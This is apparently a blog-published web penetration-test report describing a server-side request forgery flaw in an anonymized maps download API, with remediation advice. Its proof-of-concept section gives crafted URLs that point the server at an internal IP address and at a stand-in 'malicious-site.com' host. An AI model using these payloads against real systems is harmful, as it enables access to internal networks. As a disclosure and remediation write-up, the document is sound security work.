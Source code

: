 ```yaml
---
layout: post
title: 'IT Company Web Application PT'
tags:
 - web
 - real-activity
hero: https://images.unsplash.com/photo-1462206092226-f46025ffe607?ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&w=1474&q=80
overlay: red
---
```


Please note that for this proof of concept, while images and step-by-step reproduction tips are fundamental for evidentiary purposes, they will not be supplied. Furthermore, in adherence to our commitment to privacy and compliance with non-disclosure agreements, all URLs and functionalities within this assessment have been anonymized. {: .lead}
 <!--break-->

# IT Company

## Type of activity and objectives
The objective of this engagement was to conduct a web application penetration test for the organization. The aim was to identify potential vulnerabilities that could potentially be exploited from the outside, to prevent unauthorized access, compromise and data exfiltration.
## Scope of evaluation
The evaluation was focused on the exposed web application. This scope encompassed assessing the security and potential vulnerabilities within this surface.
## Executive Summary 
The assessment of the target application identified a Server-Side Request Forgery (SSRF) vulnerability. SSRF is a security vulnerability that allows an attacker to manipulate the server into making unintended network requests to internal or external resources. Exploiting this vulnerability could potentially lead to data exposure, service disruption, and unauthorized access to sensitive information.
## Finding Summary
- SSRF
## Risk Impact Graph with CVSS Scores

![](https://raw.githubusercontent.com/blitz0p3rations/blitz0p3rations.github.io/master/uploads/c7.png)

## Vulnerability Types Distribution

![](https://raw.githubusercontent.com/blitz0p3rations/blitz0p3rations.github.io/master/uploads/c8.png)

## Attack storyline and findings### SSRF
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:L
#### Proof of Concept (PoC)

1. URL: `.it/maps/api/v1/print/download?url=http%3a%2f%2f10.150.56.238%3a8080%2f`
   
   This URL appears to be susceptible to SSRF. By providing a specially crafted `url` parameter, we can attempt to access internal or external resources.

   Example:
   `.it/maps/api/v1/print/download?url=http://malicious-site.com/malicious-file`

2. URL: `.it/maps/api/v1/print/download?url=https%3a%2f%2f.it%2fgeoserver%2fp_bzAdministrativeUnits`

   Similar to the previous URL, this one is also vulnerable to SSRF. The provided `url` parameter seems to accept URLs as inputs, which can be manipulated to request arbitrary resources.

   Example:
   `.it/maps/api/v1/print/download?url=https://malicious-site.com/malicious-file`

By using the provided URLs and manipulating the `url` parameter, an attacker could attempt to trigger unintended requests to external or internal resources. This vulnerability could potentially lead to unauthorized data access or other security risks. To mitigate this vulnerability, ensure proper input validation, restrict outgoing requests to trusted domains, and follow best practices for SSRF prevention.

#### Remediations
- Input Validation and Whitelisting: Validate and sanitize user-provided input thoroughly before making any external requests. Use whitelists of allowed domains or IP addresses to restrict the destinations of requests.

- Use Proper Libraries: If your application needs to make requests to external resources, use well-maintained libraries or modules that offer built-in protections against SSRF. These libraries might have features like URL validation and restriction.

- Bound IP Ranges and Ports: If possible, configure the server to only allow requests to specific IP ranges or ports. This can help prevent SSRF attacks by restricting where requests can be sent.

- Use DNS Resolution Safeguards: Prevent the SSRF vulnerability by using DNS resolution safeguards, such as forcing DNS resolution through a proxy that only resolves safe domains.

- Avoid User-Controlled URLs: Avoid making requests to URLs provided by users unless necessary. If user-controlled URLs are needed, ensure that they go through rigorous validation and sanitization.

- Network Segmentation: Isolate your application's server from internal systems by using network segmentation. This can prevent SSRF attacks from reaching sensitive internal resources.
